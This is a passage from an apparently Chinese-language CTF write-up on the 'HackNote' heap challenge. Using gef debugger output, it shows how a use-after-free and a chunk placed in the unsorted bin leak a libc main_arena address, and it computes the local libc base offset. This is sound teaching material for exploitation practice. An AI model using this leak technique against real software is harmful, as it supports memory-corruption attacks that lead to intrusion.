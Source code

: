 我们可以看到第二个堆块的确进入了unsortbin链表中，不过这有啥用呢？我们来看一下这个堆块的内存：

```python
gef➤  x /8wx 0x804b010
0x804b010:	0x00000000	0x00000049	0xf7fb27b0	0xf7fb27b0
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000000
```

可以看到这个堆块的fd和bk指向同一个地方，即0xf7fb27b0，这个位置就是位于libc的main_arena结构体中，那我们如何不通过调试把这个地址打印出来呢？只需要再次申请64字节的堆块，内容长度不要覆盖bk，然后调用print功能，打印0号或2号，就能把fd和bk的内容打印出来了：

```python
gef➤  heap chunks
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     2b 86 04 08 18 b0 04 08 00 00 00 00 49 00 00 00    +...........I...]
Chunk(addr=0x804b018, size=0x48, flags=PREV_INUSE)
    [0x0804b018     0a 27 fb f7 b0 27 fb f7 00 00 00 00 00 00 00 00    .'...'..........]
Chunk(addr=0x804b060, size=0x10, flags=PREV_INUSE)
    [0x0804b060     2b 86 04 08 70 b0 04 08 00 00 00 00 29 00 00 00    +...p.......)...]
Chunk(addr=0x804b070, size=0x28, flags=PREV_INUSE)
    [0x0804b070     31 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00    1...............]
Chunk(addr=0x804b098, size=0x20f70, flags=PREV_INUSE)  ←  top chunk
gef➤  c
Continuing.
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :3
Index :2

这里出现一些十六进制的乱码就是打印出来的地址，去后四个字节就是泄露出来地址
```

因为我们可以看到ptr数组，0号和2号是指向同一个堆块，因为0号free的时候没有堆ptr数组进行清空

```python
gef➤  telescope 0x0804A050
0x0804a050│+0x0000: 0x0804b008  →  0x0804862b  →   push ebp
0x0804a054│+0x0004: 0x0804b060  →  0x0804862b  →   push ebp
0x0804a058│+0x0008: 0x0804b008  →  0x0804862b  →   push ebp
```

##### 本地偏移

那么这个位置和libc的基址差多远呢？不同的libc版本下可能是不一样的，在本地的情况下我们看一下vmmap就好了：

```python
0xf7e00000 0xf7fb0000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
```

即：0xf7fb27b0 - 0xf7e00000 = 0x1b27b0
